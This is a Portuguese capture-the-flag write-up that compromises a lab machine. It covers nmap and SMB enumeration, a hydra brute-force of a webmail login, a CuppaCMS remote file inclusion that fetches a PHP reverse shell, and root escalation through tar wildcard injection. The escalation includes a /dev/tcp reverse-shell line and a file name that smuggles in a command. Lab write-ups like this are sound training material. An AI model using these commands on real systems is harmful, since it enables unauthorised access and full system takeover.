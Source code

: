 # SCANNING
Com o comando 
```Kali
sudo nmap -A -Pn -T5 -v 10.10.76.34
```
iniciamos o escaneamento mais abrangente, sem realizar o PING, nas 1000 portas comum, de forma agressiva
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250131173426.png)
## Informações Levantadas
**Portas Abertas**: 22, rodando um serviço SSH OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
			80, rodando um serviço WEB Apache httpd 2.4.18
			110, rodando um serviço de email POP3 Dovecot pop3d
			139, rodando um serviço
			143, rodando um serviço de email Dovecot imapd
			445, , rodando um serviço Samba 4.3.11
**SO**: Ubuntu 4.4
# Enumeração
Ao acessar o serviço WEB encontramos uma página mas sem formas de exploração aparente
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172518.png)

Realizamos então a enumeração do serviço SMB e descobrimos algumas coisas interessantes
```Kali
enum4linux -a 10.10.255.32
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172131.png)
Conseguimos conectar no compartilhamento anonymous e identificamos um arquivo de log, que parece ser uma wordlist
```Kali
smbclient //10.10.255.32/anonymous -N
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172249.png)
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132254.png)

Realizamos a enumeração do serviço WEB com o **gobuster** e identificamos um serviço de email

```Kali
gobuster dir -u http://10.10.255.32 -w /usr/share/wordlists/dirb/big.txt
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132115.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125256.png)

# Exploração
Tentaremos descobrir a credencial do usuário milesdyson (nome de um compartilhamento) com a wordlist encontrada em log1 com o **hydra**, utilizando o **Burp Suite** para analisar a requisição e montar a sintaxe
```Kali
hydra -l milesdyson -P /home/rosembrick/log1.txt 10.10.255.32 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect" -v -T64 -I
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125533.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125612.png)


Após a tentativa, descobrimos a credencial e assim obtivemos acesso ao serviço de email
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124948.png)

**login: milesdyson   password: cyborg007haloterminator**

Numa das primeiras mensagens, há uma senha do serviço SMB possivelmente
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125214.png)


Conseguimos acesso ao compartilhamento do usuário milesdyson e obtemos acesso a um arquivo importante, chamado important.txt com suposto diretório
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125717.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125803.png)

Ao acessarmos o diretório encontramos esta página e assim, tentamos mais uma vez enumerar com o **gobuster**

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125822.png)

Com o comando abaixo, identificamos uma página de login
```Kali
gobuster dir -u http://10.10.255.32/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/big.txt
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125057.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125924.png)

Procuramos por exploits que explorem o serviço CUPPA CMS e identificamos um exploit para executar um RFI
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125443.png)

Preparamos nosso exploit conforme descrição do script, alterando para o nosso host conforme se segue
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130055.png)

Com um listener aberto no Kali e um servidor Python para que o alvo se conecte e faça o dowload do nosso reverse shell por PHP, acessamos a página abaixo
http://10.10.255.32/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.22.193:443/exploit_php.php
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125334.png)

E assim, conseguimos acesso ao alvo pelo usuário www-data.
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124851.png)

Capturamos a flag do user

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131725.png)

**user:** 7ce5c2109a40f958099283600a9ae807
# Escalação de Privilégio
Realizamos uma enumeração interna com **linpeas.sh** baixado por um servidor python do nosso Kali
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132021.png)

E identificamos esse script que realiza backup a cada 1 min com a ferramenta **tar**, passível de explorarmos para escalarmos privilégio
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124302.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124424.png)

Verificamos que o binário **tar** executa um comando em cada ponto de verificação do backup
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124600.png)

Para isso preparamos nosso script para escalarmos para root com o comando abaixo
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130324.png)

```Kali
echo '#!/bin/bash > root_shell.sh
```
```Kali
echo 'bash -i >& /dev/tcp/10.23.22.193/4445 0>&1' >> root_shell.sh
```
Agora criaremos um **arquivo** chamado `--checkpoint-action=exec=bash root_shell.sh`, contendo o texto `/var/www/html` para que o `tar` executado dentro desse diretório, use o `--checkpoint`, e assim executar o nosso shell reverso `root_shell.sh`.
```Kali
echo "/var/www/html"  > "--checkpoint-action=exec=bash root_shell.sh"
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130505.png)

Como o arquivo inicial `/home/milesdyson/backups/backup.sh`executa o binário **tar** a cada minuto, receberemos a shell de root em 1 minuto conforme abaixo.
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131601.png)

Já com acesso ao root, capturamos a flag de root
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131643.png)


**root:** 3f0372db24753accc7179a282cd6a949

